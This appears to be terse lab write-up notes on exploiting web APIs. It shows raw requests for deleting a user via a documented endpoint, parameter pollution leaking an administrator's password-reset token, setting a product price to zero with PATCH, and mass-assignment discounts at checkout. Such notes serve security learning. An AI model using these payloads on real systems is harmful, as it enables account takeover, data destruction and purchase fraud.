

____

# Exploiting an API endpoint using documentation

```html
DELETE api/user/carlos
```

# Exploiting server-side parameter pollution in a query string



Adding the additional parameter `field` with variable `reset_token` in the POST request, leak the sensitive information to reset password token.

Attempt to truncate the server-side query string using a URL-encoded `#` character: %23

```
POST /forgot-password

csrf=EOaA9KP0jcmyGMZ9SJcknOViH7bSKzS5&username=administrator%26field=reset_token%23
```

# Finding and exploiting an unused API endpoint

OPTIONS /api/products/1/price

Allow: GET, PATCH

PATCH /api/products/1/price

"error":"Only 'application/json' Content-Type is supported"

Add Content-Type: application/json

"error":"'price' parameter missing in body"

```json
{
  "price":   0
}
```

# Exploiting a mass assignment vulnerability

POST /api/checkout

```json
{
  "chosen_discount": {
    "percentage": 100
  },
  "chosen_products": [
    {
      "product_id": "1",
      "name": "Lightweight \"l33t\" Leather Jacket",
      "quantity": 1,
      "item_price": 0
    }
  ]
}

```
